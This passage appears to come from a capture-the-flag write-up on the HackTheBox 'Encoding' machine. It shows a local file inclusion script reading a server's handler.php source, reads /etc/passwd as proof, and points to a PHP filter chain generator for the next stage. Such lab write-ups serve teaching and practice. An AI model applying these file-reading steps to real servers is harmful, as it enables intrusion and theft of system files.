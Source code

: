 #### Same output at `encoding.htb/handler.php`

![image](https://0xc0rvu5.github.io/docs/assets/images/20230309072607.png)
 
- Let's retrieve that file with the current `LFI` exploit

```bash
python show_file.py /var/www/html/handler.php

<?php
include_once '../api/utils.php';

if (isset($_FILES['data_file'])) {
    $is_file = true;
    $action = $_POST['action'];
    $uri_path = $_POST['uri_path'];
    $data = $_FILES['data_file']['tmp_name'];

} else {
    $is_file = false;
    $jsondata = json_decode(file_get_contents('php://input'), true);
    $action = $jsondata['action'];
    $data = $jsondata['data'];
    $uri_path = $jsondata['uri_path'];



    if ( empty($jsondata) || !array_key_exists('action', $jsondata) || !array_key_exists('uri_path', $jsondata)) 
    {
        echo jsonify(['message' => 'Insufficient parameters!']);
        // echo jsonify(['message' => file_get_contents('php://input')]);

    }

}

$response = make_api_call($action, $data, $uri_path, $is_file);
echo $response;

?>
```


#### We will supply the relevant fields and check for `/etc/passwd` as a `PoC`.

![image](https://0xc0rvu5.github.io/docs/assets/images/20230309074536.png)

- Success!
- Create `php` chain filter
	- [[https://github.com/synacktiv/php_filter_chain_generator]]
